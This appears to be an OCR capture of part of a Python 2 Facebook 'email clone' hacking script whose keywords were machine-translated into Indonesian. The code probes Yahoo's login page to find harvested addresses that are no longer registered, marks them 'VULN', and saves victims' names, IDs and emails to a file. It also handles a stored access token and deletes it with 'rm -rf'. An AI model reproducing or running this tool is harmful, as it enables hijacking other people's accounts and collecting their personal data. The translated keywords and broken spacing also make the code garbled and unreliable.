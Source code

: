 			yahoo = re.compile (r '@. *')
			otw = yahoo.search (mail) .group ()
			if 'yahoo.com' dalam otw:
				br.open ("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = Benar
				br.select_form (nr = 0)
				br ["username"] = email
				klik = br.submit (). read ()
				jok = re.compile (r '"messages.ERROR_INVALID_USERNAME">. *')
				mencoba:
					pek = jok.search (klik) .group ()
				kecuali:
					terus
				jika '"messages.ERROR_INVALID_USERNAME">' di pek:
					cetak ("\ 033 [1; 96m [✓] \ 033 [1; 92mVULN")
					cetak ("\ 033 [1; 96m [➹] \ 033 [1; 97mID \ 033 [1; 91m: \ 033 [1; 92m" + id)
					cetak ("\ 033 [1; 96m [➹] \ 033 [1; 97mEmail \ 033 [1; 91m: \ 033 [1; 92m" + mail)
					cetak ("\ 033 [1; 96m [➹] \ 033 [1; 97mNama \ 033 [1; 91m: \ 033 [1; 92m" + nama)
					save = open ('out / GrupMailVuln.txt', 'a')
					save.write ("Nama:" + nama + '\ n' "ID:" + id + '\ n' "Email:" + mail + '\ n \ n')
					save.close ()
					berhasil.append (mail)
		kecuali KeyError:
			lulus
	cetak 42 * "\ 033 [1; 96m ="
	cetak '\ 033 [1; 96m [\ 033 [1; 97m.2016 \ 033 [1; 96m] \ 033 [1; 92mSelesai \ 033 [1; 97m ....'
	print "\ 033 [1; 96m [+] \ 033 [1; 92mTotal \ 033 [1; 91m: \ 033 [1; 97m" + str (len (berhasil))
	print "\ 033 [1; 96m [+] \ 033 [1; 92mFile disimpan \ 033 [1; 91m: \ 033 [1; 97m keluar / GrupMailVuln.txt"
	raw_input ("\ n \ 033 [1; 96m [\ 033 [1; 97mKembali \ 033 [1; 96m]")
	Tidak bisa()
	

def clone_dari_file ():
	toket global
	os.system ('jelas')
	mencoba:
		toket = open ('login.txt', 'r'). read ()
	kecuali IOError:
		cetak "\ 033 [1; 96m [!] \ x1b [1; 91mToken tidak valid"
		os.system ('rm -rf login.txt')
		time.sleep (1)
		keluar ()
	mencoba:
		os.mkdir ('keluar')
	kecuali OSError:
		lulus
	os.system ('jelas')
	cetak logo
	cetak 42 * "\ 033 [1; 96m ="
	files = raw_input ("\ 033 [1; 96m [+] \ 033 [1; 93mNama File \ 033 [1; 91m: \ 033 [1; 97m")
	mencoba:
		total = terbuka (file, "r")
		mail = total.readlines ()
	kecuali IOError:
		print "\ 033 [1; 96m [!] \ x1b [1; 91mFile tidak ditemukan"
		raw_input ("\ n \ 033 [1; 96m [\ 033 [1; 97mKembali \ 033 [1; 96m]")
		Tidak bisa()
	mpsh = []
	jml = 0
	jalan ('\ 033 [1; 96m [✺] \ 033 [1; 93m Mulai \ 033 [1; 97m ...')
	cetak ('\ x1b [1; 96m [!] \ x1b [1; 93mHentikan CTRL + z')
	cetak 42 * "\ 033 [1; 96m ="